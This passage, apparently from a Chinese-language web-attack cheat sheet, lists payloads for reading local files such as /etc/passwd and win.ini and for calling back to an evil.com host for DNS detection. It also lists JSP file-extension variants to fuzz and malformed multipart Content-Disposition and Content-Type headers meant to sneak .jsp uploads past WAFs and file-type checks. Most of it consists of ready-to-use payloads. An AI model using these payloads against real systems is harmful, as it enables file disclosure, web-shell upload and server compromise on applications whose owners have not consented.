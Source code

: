 ```
payload:
file:///etc/passwd
file:///c:/windows/win.ini
http://xxx.evil.com

匹配关键词：
root
[extensions]
以及dns监听请求evil.com
```

### 上传漏洞

上传漏洞的可操作的地方比较多，目前公布出的payload中，暂时还没有能完全囊括所有hack点，下面我们会以java为例简单讲讲。

#### 后缀
在对java应用后缀绕过的时候，我们可以尝试对下面这些后缀进行fuzz：

```
jjspsp
jspx
jspa
jtml
jsw
jsv
jspf
jsp
```

#### 冗余绕过
有些地方，我们进行了hack，但是却不影响数据包发送，比如：


```
Content-Disposition: form-data; name="myfile";;; filename="t3.jsp"

Content-Disposition2: form-data; name="Upload"; filename="1.jsp"

合成一行：
Content‐Disposition: form-data; name="img_crop_file"; filename="1.jsp"Content-Type: image/jpeg

Content‐Disposition: form‐data; name="up_picture"; filename="xss.js
p"

boundary后面加空格：
Content-Type: multipart/form-data; boundary= —————————47146314211411730218525550

Content-Disposition: form-data; filename="xx.jsp"; name="up_picture"

Content-Disposition: form-data; name="file_x"; filename="test.jpg"; filename="test.jsp"

Content-Disposition: form-data; name="Fhq"; test="5W个字符"; filename="test.jsp"

多个Content-Disposition可以用来绕过waf，一般server默认取的是第一个，但研究范围没有覆盖全java web server，有待验证。

绕过文件类型的验证：
Content-Type: image/jpeg

或者直接删除文件类型的验证：
Content-Type: xxxxx
```

